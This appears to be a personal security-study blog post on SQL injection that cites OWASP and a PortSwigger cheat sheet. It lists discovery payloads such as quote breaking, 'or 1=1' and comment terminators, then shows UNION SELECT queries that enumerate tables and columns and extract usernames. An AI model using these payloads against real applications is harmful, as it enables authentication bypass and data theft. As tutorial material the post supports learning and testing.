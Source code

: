 ```yaml
---
layout: post
title: SQLi
subtitle: Insert SQL query to bypass authentication and retrieve data from the database 
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
thumbnail-img: /assets/img/githubpost/sqli_thumb.png
share-img: /assets/img/Post_Cover.png
---
```


Refer: [OWasp A03:2021](https://owasp.org/Top10/A03_2021-Injection/)

- **How**: Start off adding  single/double quote to break the structure and study the responses. If vulnerable, append query to retrieve information.  
- Type: Classic, UNION, Blind, Time-based

### SQLi Vulnerability Discovery

{: .box-note}
**Note:** 💭 When determining SQLi, think of **everything you send to the application, how it may be used**?

Database: Select user from users where username = "User_Input" or 'User_Input'  
Visit [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

1. Single of double quote. Try to break the design.  
   E.g., `bob'` or `bob"`
2. Logical query: `or 1=1`  
   E.g., `bob' or 1=1`, `bob' or '1=1`, `bob" or "1=1`
3. Comment : `#` `--` `-`, everything after it will be ignored.  
   E.g., `bob' or '1=1#` `bob' or '1=1-- -` `bob" or "1=1#` `bob" or "1=1-- -`

### Checklist
<details markdown="1"><summary>Click me to expand checklist</summary></details>

### SQLi Union
It appends an additional SQL query after the original, legitimate one.

{: .box-note}
**Note:** ⚠️UNION SELECT: Determine the available column number can be returned first. Keep adding `,NULL` values until the query returns results properly.
SQL: bob' union select `null`#

In the first example, the database contains **3 columns** that contains text. But it only gives us two output `bob` and `null`.

![The example has 3 columns available.](https://rencybersec.github.io/assets/img/githubpost/sqli_3.png){: .mx-auto.d-block :}  

1. Table
~~~
UNION SELECT table_name from information_schema.tables#
~~~
2. Column
~~~
UNION SELECT column_name from information_schema.columns#
~~~
3. Retrieve Data
~~~
UNION SELECT username from <Table>
~~~

